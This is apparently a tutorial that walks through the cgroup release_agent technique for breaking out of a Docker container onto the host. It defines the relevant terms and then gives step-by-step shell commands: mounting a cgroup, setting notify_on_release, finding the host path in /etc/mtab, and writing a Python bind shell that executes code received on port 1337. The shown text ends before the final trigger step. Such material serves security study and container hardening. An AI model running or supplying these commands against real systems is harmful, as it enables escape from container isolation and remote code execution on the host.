 
#### Terminology:

* **cgroup:** a control group is a linux kernel feature, used in docker environments, to isolate the resources for a group of processes, so that it does not interfere with each other's resources.

* **release_agent:** it is script which is supposed to run when the last process in a cgroups terminates.

* **notify_on_release:** it is a flag to notify the linux kernel to invoke release_agent, when the last process in a cgroup terminates. By default this flag is disabled (0).

* **/etc/mtab:** it is a list of currently mounted filesystems.

* **sh -c "echo \$\$":** this command prints the PID of sh (or any other) process.

#### Objective:

We will try to create a cgroup and a child cgroup and then terminates it processes to invoke release_agent by enabling notify_on_release.


#### Steps:

1. Create a directory and mount RDMA cgroup controller and then create a child cgroup 'child'.

	`mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/child`

2. Enable notify_on_release flag.

	`echo 1 > /tmp/cgrp/child/notify_on_release`
	
3. Since /etc/mtab file contains currently mounted file systems (cgroup is one of them), store the full path of the cgroup (from underlying OS), in a variable called path.

	`` path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab` ``	

4. Save the path appended with a file named 'exploit' (which will contain actual payload) into release_agent, so that it gets executed when invoked.

	`echo "$path/exploit" > /tmp/cgrp/release_agent`
	
5. Now write actual payload, which is a bind shell, into exploit file. We tried writing reverse shell into the payload however it always ended up with a broken pipe on netcat listener, therefore we are using bind shell.

	`echo "#!/bin/sh" > /exploit`
	
	`echo python3 -c "'import socket; s=socket.socket(); s.bind((\"192.168.2.44\",1337)); s.listen(1);(r,z) = s.accept();exec(r.recv(999))'" >> /exploit`
	
	It is a bind shell written in python which will open port 1337 for connections on operating system's IP. **Please note that the port on which the shell is to be bound should be free. By running above command more than once, can leave the connection on specified port in CLOSED_WAIT state and hence above command will not work. Port number can be replaced to avoid this problem.**

6. Make the exploit file executable

	`chmod a+x /exploit`

7. Now we will spawn a dummy process inside child cgroup, which will end immediately and hence release_agent will be triggered inside operating system, and our payload will be executed.
